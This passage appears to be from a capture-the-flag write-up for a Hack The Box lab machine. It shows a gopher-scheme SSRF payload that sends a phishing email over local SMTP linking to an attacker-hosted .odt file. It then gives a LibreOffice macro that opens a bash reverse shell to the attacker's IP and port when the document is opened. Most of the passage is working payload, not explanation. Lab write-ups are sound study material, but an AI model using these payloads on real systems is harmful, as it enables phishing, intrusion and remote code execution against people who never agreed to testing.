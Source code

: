 Here's the final payload that I used:

{% code overflow="wrap" %}
```
gopher://2130706433:25/xHELO%250d%250aMAIL%20FROM%3A%3Ciamanidiot@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%3Ciamanidiot@gofer.htb%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250a%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250a<a+href%3d'http%3a//10.10.14.42/date.odt>hello</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```
{% endcode %}

Since there were some quotes I was lazy to deal with, I sent it in Burp and got a reponse saying it worked:

<figure><img src="../../.gitbook/assets/image (4126).png" alt=""><figcaption></figcaption></figure>

We would also get hits on our HTTP server.&#x20;

### Document Creation --> RCE

I followed this to create my own malicious `.odt` file:

{% embed url="https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html" %}

Here's the macro I used:

```visual-basic
Sub Main
	Shell("bash -c 'bash -i >& /dev/tcp/10.10.14.42/4444 0>&1'")
End Sub
```

We can then assign this to the Open Document event:

<figure><img src="../../.gitbook/assets/image (4127).png" alt=""><figcaption></figcaption></figure>
